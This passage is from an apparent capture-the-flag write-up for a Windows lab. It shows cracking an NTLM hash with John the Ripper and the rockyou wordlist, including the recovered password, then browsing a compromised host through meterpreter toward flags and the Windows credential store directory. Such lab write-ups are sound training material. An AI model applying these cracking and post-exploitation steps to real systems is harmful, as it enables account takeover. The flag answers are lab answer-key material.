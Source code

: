 ```
First, we need to know what hash type is it. I use this [Hash Identifier](https://hashes.com/en/tools/hash_identifier).  
In this case, the hash identifier found the corresponding password to the given hash.  If it doesn't find it, we can try using [john](https://www.openwall.com/john/doc/).
Let's write the hash into a file with ```echo 'ffb43f0de35be4d9917ac0cc8ad57f8d' > hash.txt```.  
Now we can try to crack the password hash using the rockyou.txt well known wordlist. We know that the hash type is NTLM.
Lets type `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT`.
```
attacker@AttackBox:~$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=NT
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 SSE4.1 4x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
alqfna22         (?)     
1g 0:00:00:00 DONE (2023-01-13 23:59) 1.136g/s 11591Kp/s 11591Kc/s 11591KC/s alqueva1968..alpus
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

And we successfuly cracked the hash !  

**Question : Copy this password hash to a file and research how to crack it. What is the cracked password ?**  
**Answer : alqfna22**  

## Find flags
Now let's find the flags !
**Flag1 ? This flag can be found at the system root.**  
By default, the system's root on windows is located in C: , so let's move to this directory and list the files.  
```
meterpreter > ls
Listing: C:\
============

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
040777/rwxrwxrwx  0      dir   2018-12-13 04:13:36 +0100  $Recycle.Bin
040777/rwxrwxrwx  0      dir   2009-07-14 07:08:56 +0200  Documents and Settings
040777/rwxrwxrwx  0      dir   2009-07-14 05:20:08 +0200  PerfLogs
040555/r-xr-xr-x  4096   dir   2019-03-17 23:22:01 +0100  Program Files
040555/r-xr-xr-x  4096   dir   2019-03-17 23:28:38 +0100  Program Files (x86)
040777/rwxrwxrwx  4096   dir   2019-03-17 23:35:57 +0100  ProgramData
040777/rwxrwxrwx  0      dir   2018-12-13 04:13:22 +0100  Recovery
040777/rwxrwxrwx  4096   dir   2022-07-06 13:38:44 +0200  System Volume Information
040555/r-xr-xr-x  4096   dir   2018-12-13 04:13:28 +0100  Users
040777/rwxrwxrwx  16384  dir   2019-03-17 23:36:30 +0100  Windows
100666/rw-rw-rw-  24     fil   2019-03-17 20:27:21 +0100  flag1.txt
000000/---------  0      fif   1970-01-01 01:00:00 +0100  hiberfil.sys
000000/---------  0      fif   1970-01-01 01:00:00 +0100  pagefile.sys
```
And there is the flag ! Just use `cat flag1.txt`.

**Question : Flag1 ? This flag can be found at the system root.**  
**Answer : flag{*HIDDEN*}**  

**Question : Flag 2 ? This flag can be found at the location where passwords are stored within Windows.**  
I looked where the passwords are stored and I found the answer [here](https://superuser.com/questions/367579/where-are-windows-7-passwords-stored).  
So let's move to ```C:/windows/system32/config``` and then list the files.  
```
meterpreter > ls